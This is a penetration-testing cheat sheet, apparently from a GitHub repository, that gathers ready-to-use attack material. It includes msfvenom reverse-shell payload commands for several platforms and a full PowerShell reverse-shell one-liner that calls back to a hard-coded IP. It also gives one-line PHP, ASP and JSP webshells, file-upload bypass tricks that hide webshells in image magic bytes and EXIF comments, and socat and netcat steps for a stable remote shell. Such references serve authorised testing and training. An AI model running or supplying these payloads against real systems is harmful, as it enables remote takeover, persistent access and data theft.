 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
#### HTA
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
```

#### DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > shell.dll
```

```
```
## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```
```
## Online Generator
<https://www.revshells.com/>
<https://weibell.github.io/reverse-shell-generator/>

```
```
## Upload Bypass

#### Rename the extension 
```
• PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

• PHP8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

• ASP: asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

• PERL: .pl, .pm, .cgi, .lib

• JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

• Coldfusion: .cfm, .cfml, .cfc, .dbm

• Flash: .swf

• Erlang Yaws Web Server: .yaws
```



Erlang Yaws Web Server: .yaws


#### Magic number

An image is identified by its first bytes. It is possible to hide a webshell by including a valid img header at the beginning of the webshell file.

###### ➤ GIF
```
Basically you just add the text "GIF89a;" before you shell-code. As exemple :

GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

###### ➤ JPEG
```
printf "\xff\xd8\xff\xe0<?php system('id'); ?>" > image?jpg
```


#### Inject PHP code into into information/comment of the image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.jpg
```

```
```
## Shell Stabilisation

#### Technique 01: Python
```
➤ Step 01 : uses Python to spawn a better featured bash shell
python -c 'import pty;pty.spawn("/bin/bash")'

➤ Step 02: this will give us access to term commands such as clear
export TERM=xterm

➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

➤ Example: 
kiosec@lab:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.0.1] from (unknown) [10.1.1.1] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
user@box:~$ export TERM=xterm
export TERM=xterm
user@box:~$ ^Z
[1]+ Stopped            sudo nc -lvnp 443
kiosec@lab:~$ stty rauw -echo; fg
nc -lvnp 443

user@box:~$ whoami
user
user@box:~$ ^C
user@box:~$
```

#### Technique 02: Rlwrap
rlwrap gives a more fully featured shell including access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
This technique is particularly useful with the Windows shell.
```
➤ Step 01: Install rlwrap (not installed by default on the kali)
apt install rlwrap

➤ Step 02: Invoke the listener.
rlwrap nc -lnvp <port> 

[additional steps for Linux target]
➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg
```

#### Technique 3: Socat
Restricted to Linux target
```
➤ Prerequisite: Obtain Socat on the linux target.

➤ Step 01: Transfer a socat static compiled binary (e.g., using python http.server)
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

➤ Step 02: On the Kali
socat TCP-L:<port> FILE:`tty`,raw,echo=0

➤ Step 03: execute the reverse shell on the target.

➤ Step 04: Once connected to the target, execute the sepcial socal command in order to 
socat TCP:<kali-attacker-ip>:<kali-attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
